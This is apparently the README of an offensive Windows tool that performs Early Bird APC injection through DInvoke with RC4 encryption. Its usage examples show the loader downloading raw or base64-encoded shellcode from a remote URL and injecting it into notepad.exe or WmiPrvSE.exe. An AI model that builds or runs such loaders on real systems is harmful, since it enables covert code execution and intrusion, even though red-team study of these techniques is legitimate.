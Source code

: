EarlyBird APC Injection
===
Implementation of Early Bird APC Injection using DInvoke, with RC4 encryption, and the ability to receive the shellcode locally (raw) or remotely (raw and encoded in base64).

Usage
---
```
Usage [1]: Passing the shellcode locally and using the default process: C:\Windows\System32\notepad.exe
        e.g. EarlyBird.exe -shellcode <shellcode-file>
        e.g. EarlyBird.exe -shellcode C:\Users\user\Desktop\shellcode.sc

Usage [2]: Passing the shellcode remotely and using the default process: C:\Windows\System32\notepad.exe
        e.g. EarlyBird.exe -shellcode <url>
        e.g. EarlyBird.exe -shellcode https://example.com/shellcode.sc

Usage [3]: Passing the base64 encoded shellcode remotely and using the default process: C:\Windows\System32\notepad.exe
        e.g. EarlyBird.exe -shellcode base64:<url>
        e.g. EarlyBird.exe -shellcode base64:https://example.com/shellcode.txt

[i] You can change the target process by passing the -process flag to any of the three ways to run EarlyBird.exe
        e.g. EarlyBird.exe -shellcode base64:https://example.com/shellcode.txt -process C:\Windows\System32\Wbem\WmiPrvSE.exe
```
